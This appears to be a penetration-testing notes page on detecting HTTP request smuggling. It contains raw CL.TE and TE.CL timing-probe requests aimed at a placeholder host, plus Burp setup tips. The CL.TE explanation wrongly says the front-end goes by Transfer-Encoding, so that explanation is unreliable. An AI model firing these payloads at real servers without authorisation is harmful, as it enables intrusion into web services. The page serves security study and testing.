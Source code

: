 # HTTP request smuggling

HTTP request smuggling

<details><summary>General info</summary></details>

<details><summary>How do HTTP request smuggling vulnerabilities arise?</summary></details>

## <mark style="color:yellow;">Identification</mark>

{% hint style="warning" %}
**Important**:&#x20;

* `Connection` header mustn't be set to `close`. Set it to `keep-alive`.
* In early techniques you must use `HTTP/1.1` protocol, not `HTTP/2`. In burp change it using Inspector.
{% endhint %}

### <mark style="color:yellow;">**CL.TE**</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
1\r\n
A\r\n
X
```

`Content-Length=4` -> `1` `\r` `\n` `A`

* The **front-end** server processes the initial chunk based on the Transfer-Encoding header, forwarding only part of the request while omitting the `X`.&#x20;
* After processing the first chunk, the **backend** server waits for the next one, causing a noticeable time delay.

### <mark style="color:yellow;">TE.CL</mark>

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Transfer-Encoding: chunked\r\n
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```

`Content-Length=6` -> `0` `\r` `\n` `\r` `\n` `X`

The back-end server, relying on the Content-Length header, waits for additional message body content, resulting in a noticeable time delay.
